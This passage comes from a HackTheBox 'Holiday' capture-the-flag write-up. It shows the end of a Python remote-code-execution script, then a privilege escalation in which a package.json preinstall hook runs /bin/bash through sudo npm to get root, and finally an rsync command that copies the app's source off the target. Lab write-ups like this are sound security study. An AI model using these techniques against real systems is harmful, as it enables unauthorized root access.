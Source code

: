 ```py
    # RCE
    getRCE(lhost,rhost,cookie_read)

    # Clean up the things
    os.system("rm 0x4rt3mis.js")
    os.system("rm shell")
    os.system("rm cookie_admin")

if __name__ == '__main__':
    main()
```

Ok, now let's become root.

# Algernon -> root

With `sudo -l` we see that this user can run npm as root without a password

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2005:29:02.png)

Searching on the internet we see how npm as root can be dangerous, and we found this [git](https://github.com/joaojeronimo/rimrafall)

We create our own `package.json`

```json
{
  "name": "root_holiday",
  "version": "1.0.1",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

Now, just run it and get root

```sh
sudo npm i 0x4rt3mis/ --unsafe
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2005:33:56.png)

# Source Code Analisys

I'm curious about some points on this box. I'll try to read the source code of the app to understand better how it's working.

We transfer the app folder to our box

```sh
rsync -azP -i algernon@10.10.10.25:app/* .
```
